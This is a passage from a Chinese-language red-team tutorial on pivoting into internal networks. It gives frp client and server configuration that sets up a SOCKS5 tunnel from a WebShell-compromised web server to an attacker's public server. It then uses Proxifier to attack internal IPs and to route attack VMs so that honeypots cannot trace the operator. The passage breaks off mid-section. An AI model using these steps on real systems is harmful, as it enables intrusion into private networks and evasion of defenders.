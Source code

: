很简单，frpc 是客户端，frps 是服务端  
![](https://blog.zgsec.cn/usr/uploads/2022/12/1825149906.png)

配置`frpc.ini`:

```
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    

```

客户端通过 WebShell 上传，frps 上传到自己的公网服务器上，配置`frps.ini`:

```
# frps.ini
[common]
bind_port = 7000

```

接下来要在自己的公网服务器上开 6000 和 7000 这两个端口，并执行命令进行监听：

```
./frps -c ./frps.ini

```

再在上线的那台机器上执行命令：

```
/var/www/html/frp/frpc -c ./frpc.ini

```

这样就可以成功将内网流量通过公网服务器的 6000 端口代理出来了，接下来使用 `Proxifier` 配合 Frp 对相关进程进行全局代理即可：

![](https://blog.zgsec.cn/usr/uploads/2022/12/4210343784.png)

然后直接用工具对内网目标攻击即可（没错，就是你想的那样，工具里面直接填内网 IP 地址就能打）

### 3.2 通过 Proxifier 将 VM 虚拟机代理

很多时候，作为攻击队，我们都需要在纯净的武器库虚拟机中完成自己的渗透（因为蜜罐会尝试获取浏览器 Cookie 和本地文件，用自己的实体机很快就能被溯源），如何直接让所有的虚拟机都走上代理呢？

**注：本文这个方法，无视任何类型的系统类型和对应配置，只要配置 VM 网卡出网即可被代理**

如下配置：

![](https://blog.zgsec.cn/usr/uploads/2023/07/457588977.png)

应用程序填写如下：
